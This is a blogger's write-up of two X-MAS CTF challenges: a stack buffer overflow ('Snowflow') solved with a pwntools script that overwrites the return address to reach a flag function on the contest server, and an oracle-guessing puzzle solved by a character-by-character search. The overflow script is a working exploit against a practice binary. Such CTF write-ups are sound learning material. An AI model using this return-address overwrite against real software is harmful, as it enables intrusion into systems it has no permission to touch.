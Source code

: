 ```yaml
---
layout: post
title: XMas CTF
categories: [CTF, Writeup]
---
```

This is my first blog post and I'm writting it a while after the CTF has concluded however I need to start somewhere right? I wasn't able to contribute much to this CTF as I was preparing for finals. However, I did have a great time solving and attempting what I could and it was great to work with other members of redpwn.

### Pwn

#### Snowflow
```
Snow, snow, snow... there is snow everywhere! I'm feeling a little bit overwhelmed... or would I say overflowed?
```

Running a file check on the challenge we see that it is stripped which means there are no debugging symbols.
```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.  
2, for GNU/Linux 3.2.0, BuildID[sha1]=b96d5da6df4dc39b35bec7a8068b741d24999c3d, stripped
```

My second step was to open the binary in Ghidra. I saw that the main function had a buffer which could be overflowed. 
```
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
```

Looking at the other functions in the binary, I noticed a function at `0x401156` which contained `puts("X-MAS{REAL FLAG ON THE SERVER}");` Okay, looks like we just need to overflow to run this function which will display for us the real flag on the server. 

The first step was to determine the offset. As this is a 64 bit program, I use cyclic from pwntools and send a 512 length string. I attach GDB so that when it crashes I can look at the registers. For 64 bit pwn, RIP is not actually overflow, so I look at RSP for the offset. 

```
$rsp : 0x00007ffe59e19be8 → "aafaaagaaahaaa
```

I then use cyclic_find from pwntools to identify that the offset is 18. The last step is to add a 64 bit packed address of the function we want to execute which is easy using pwntools. My final solution script looks like this.

```python
from pwn import *  
  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./chall")  
  
#gdb.attach(r)  
  
r = remote("challs.xmas.htsp.ro", 12006)  
  
r.recvline()  
  
payload = ""  
  
#payload += cyclic(512)  
# offset is 18  
  
payload += "A" * 18  
  
payload += p64(0x401156)  
  
r.sendline(payload)  
  
r.interactive()
```

### PPC

#### Orakel
```
We have finally linked up with the famous Lapland Oracle, that knows and sees all!
Can you guess his secret word?

Remote server: challs.xmas.htsp.ro 13000
```

When connecting to the server, we see that we are given 1000 opportunities to guess the correct key. After brute spamming characters, I deemed the key length to be around 100 characters. This means our program needs to be quite efficient!

The first algorithm which came to mind was binary search. However, after failing to implementing it multiple  times I still couldn't get it to work. The trick was realizing that at each character, the "score" would firrst decrease, then increase if we went from a - > Z. I found an interesting article on how to find the minimum in such a sequence [here](https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/ "https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/"). 

In my solution, I also chose to optimize the searching by implementing a valueDict array which stored the searched strings for each length and their scores. This is a dynamic programming style approach which stops the program from wasting a search on something we already looked for. My final solution didn't cleanly recieve the flag, so I used `context.log_level = "debug"` to display all sent and recieved text to retrieve the flag. Below is my final solution which got the flag in ~800 attempts.

```python
from pwn import *
from time import sleep  
import regex as re  
import string  
  
context.log_level = "debug"  
  
r = remote("challs.xmas.htsp.ro", 13000)  
r.recvuntil("Luck.")  
r.recvline()  
  
bestScore = 99999  
attempts = 1  
  
regexp = re.compile(r": (.*)")  
  
def getScore(inpStr):  
global attempts  
attempts += 1  
r.sendline(inpStr)  
inpLine = r.recv()  
score = int(regexp.search(inpLine).group(1))  
return score  
  
valueDict = {}  
  
def getScoreEff(inpStr):  
global valueDict  
if(inpStr in valueDict):  
return valueDict[inpStr]  
else:  
retVal = getScore(inpStr)  
valueDict[inpStr] = retVal  
return retVal  
  
r.sendline("A")  
sleep(1)  
r.recv()  
r.recv()  
  
# Begin search char by char assuming length max is 100  
  
searchSpace = []  
foundKey = ""  
currScore = 99999  
  
for i in range(65, 122 + 1):  
if i <= 90 or i >= 97:  
searchSpace.append(i)  
  
for i in range(100):  
if currScore < 0:  
break  
# for each char  
low = 0  
high = len(searchSpace) - 1  
mid = 0  
  
while(low < high):  
  
mid = low + ((high - low) / 2)  
  
#print(str(low) + " " + str(mid) + " " + str(high))  
  
#lowScore = getScoreEff(chr(searchSpace[low]))  
midScore = getScoreEff(foundKey + chr(searchSpace[mid]))  
midScoreRight = getScoreEff(foundKey + chr(searchSpace[mid + 1]))  
#highScore = getScoreEff(chr(searchSpace[high]))  
  
#print(str(lowScore) + " " + str(midScore) + " " + str(highScore))  
  
if midScore < midScoreRight:  
high = mid  
else:  
low = mid + 1  
  
foundKey += chr(searchSpace[low])  
currScore = getScoreEff(foundKey)  
print(foundKey + " with score of: " + str(getScoreEff(foundKey)) + ", attempts: " + str(attempts))  
currScore = getScoreEff(foundKey)  
valueDict.clear()  
  
#print("Min found at: " + str(searchSpace[mid]) + ", with a value of: " + str(getScore(chr(searchSpace[mid]))))  
  
  
r.interactive()
```

## Concluding thoughts

Solving the few problems that I did was great, especially seeing my orakel script crank through the characters and the score lowering as it pressed onward. I do wish I had more time to spend on this CTF as we might have been able to place higher as a team.

